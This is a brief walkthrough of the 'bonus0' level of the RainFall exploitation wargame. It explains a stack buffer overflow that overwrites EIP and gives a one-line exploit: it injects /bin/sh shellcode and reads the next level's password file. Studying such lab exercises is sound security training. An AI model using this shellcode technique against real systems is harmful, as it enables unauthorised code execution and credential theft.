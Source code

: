 # Walkthrough

## Disassembling executable

see source.c 


## Analysis

We copy the 20 first bytes of payload into the first buffer, which gets copied into str, then we write the four last bytes of our payload into the second buffer, and we fill the buffer with random value until we reach the eip register, there we change the value of eip to the address of str. this buffer gets concatenated into str so our payload is full in str. when the program leaves the function it jumps to the beginning of str and executes our payload.


```
bonus0@RainFall:~$ ((python -c "print('\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99')"); (python -c "print('\xb0\x0b\xcd\x80' + 'A' * 5 + '\x26\xf7\xff\xbf' + 'A' * 7)"); echo "cat /home/user/bonus1/.pass") | ./bonus0 
```
